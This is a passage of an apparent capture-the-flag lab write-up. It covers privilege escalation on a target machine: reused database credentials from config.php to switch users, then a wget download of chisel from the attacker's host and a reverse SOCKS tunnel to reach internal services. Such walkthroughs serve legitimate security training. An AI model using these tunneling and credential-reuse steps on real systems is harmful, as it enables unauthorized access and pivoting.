 Researching in the linesurvey files, we found database credentials in the **config.php** file. Inside the database there is nothing interesting, but this password is the one of the ron user.

```sh
su ron
password: ********
```

After searching different ways to get root access, we find that there are some services running on local.

```sh
netstat -tunlp
```
![Pic]({{ '/assets/img/heal/18pic.png' | relative_url }}){: .center-image }

As shown in the image, there are several ports being used. To work comfortably with them, we can bring them to our machine using [chisel](https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz), this is called "port forwarding".

To do this we need to transfer chisel to the victim machine, we can easily do this using python.

From our machine:

```sh
python3 -m http.server 80
```

From the victim machine:

```sh
wget http://<your_ip>/chisel
```

Now we create the server from our machine with the following command:

```sh
./chisel server -p 1234 --reverse
```

From the victim machine we need to run this one:

```sh
./chisel client <tu_ip>:1234 R:socks
```

Finally, to use this tunnel we need to add this line to the **/etc/proxychains4.conf** file:

![Pic]({{ '/assets/img/heal/19pic.png' | relative_url }}){: .center-image }

> In case it is not working comment **dynamic_chain** and uncomment **strict_chain**.

To see these services from our browser, we need to use **[FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search)** and create a proxy like the following:

![Pic]({{ '/assets/img/heal/20pic.png' | relative_url }}){: .center-image }

Now if we browse for example, to 127.0.0.1:8500 we will see the content of this service.

![Pic]({{ '/assets/img/heal/21pic.png' | relative_url }}){: .center-image }
